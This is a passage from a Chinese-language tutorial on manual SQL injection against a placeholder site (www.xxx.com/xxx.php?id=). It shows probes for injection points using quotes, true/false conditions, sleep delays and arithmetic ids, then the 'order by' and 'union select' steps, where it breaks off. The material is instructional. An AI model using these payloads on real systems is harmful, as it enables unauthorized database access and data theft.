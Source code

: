 # 5. SQL手工注入流程

## 5.1. **寻找注入点**

判断某个链接是否存在SQL注入，可以通过对其传入的可控参数进行简单的构造，通过服务端返回的内容来判断有无注入。首先尝试在url中添加“'”观察是否会报错；随后通过添加 and 1=1或者and1=2进一步确认，如果“'”触发报错，则说明大概率为注入点，and 1=1返回原页面，and1=2返回空白或者报错，则基本证明此处为注入点。

1. **闭合引号或括号判断**

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1'

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1"

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1')

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1")

  如果出现错误提示，则该网站可能就存在注入漏洞

2. **通过构造“恒真”和“恒假”来判断**

  [www.xxx.com/xxx.php?id=1](http://www.xxx.com/xxx.php?id=1)' and 1=1  恒真，页面显示正常

  [www.xxx.com/](http://www.xxx.com/)xxx.php?id=1' and 1=2  恒假，如果报错或者页面内容消失可以初步判断为存在注入

  [www.xxx.com/xxx.php?id=1](http://www.xxx.com/xxx.php?id=1)  页面响应时间正常

  [www.xxx.com/xxx.php?id=1](http://www.xxx.com/xxx.php?id=1)' and sleep(5)  如果页面响应时间有延迟可以判断为存在注入

3. **通过加减乘除判断注入点**

[www.xxx.com/xxx.php?id=2](http://www.xxx.com/xxx.php?id=2)   页面显示正常

如果以下3个请求显示的页面跟 id=2 一样，则可以判断为存在注入

[www.xxx.com/xxx.php?id=4-2](http://www.xxx.com/xxx.php?id=4-2)  

[www.xxx.com/xxx.php?id=1+1](http://www.xxx.com/xxx.php?id=1+1)

[www.xxx.com/xxx.php?id=6/3](http://www.xxx.com/xxx.php?id=6/3)

## 5.2. **确定字段个数**

通过在参数后面插入“order by x#”来确定字段个数，直到“order by x#”正常显示并且“order by x+1#”报错为止，报错是说明x+1超过了字段个数，字段个数就是x

例如：

   [www.xxx.com/xxx.php?id=2](http://www.xxx.com/xxx.php?id=2)’ order by 3#  正常显示

  并且

   [www.xxx.com/xxx.php?id=2](http://www.xxx.com/xxx.php?id=2)’ order by 4#  报错

说明字段个数为3

## 5.3. **确定字段回显位置**

在参数后面添加“union select 1,2,3,…,x-1,x#”(x是字段个数），联合查询确定可回显位置
